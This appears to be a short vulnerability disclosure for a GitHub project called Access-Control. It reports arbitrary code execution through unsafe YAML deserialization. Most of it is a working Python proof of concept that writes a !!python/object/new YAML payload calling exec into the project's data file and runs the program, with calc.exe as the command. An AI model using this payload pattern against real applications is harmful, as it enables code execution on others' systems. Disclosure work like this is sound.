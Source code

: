 # Description

`Access-Control` package is vulnerable to `Arbitary Code Execution` due to insecure yaml desearilization.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

_steps to reproduce:_
```python
import os

os.system('git clone https://github.com/DimoDimchev/Access-Control')
os.chdir('Access-Control/')

payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""

open('data/data.yaml','w+').write(payload)
os.system("python3 src/main.py")
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
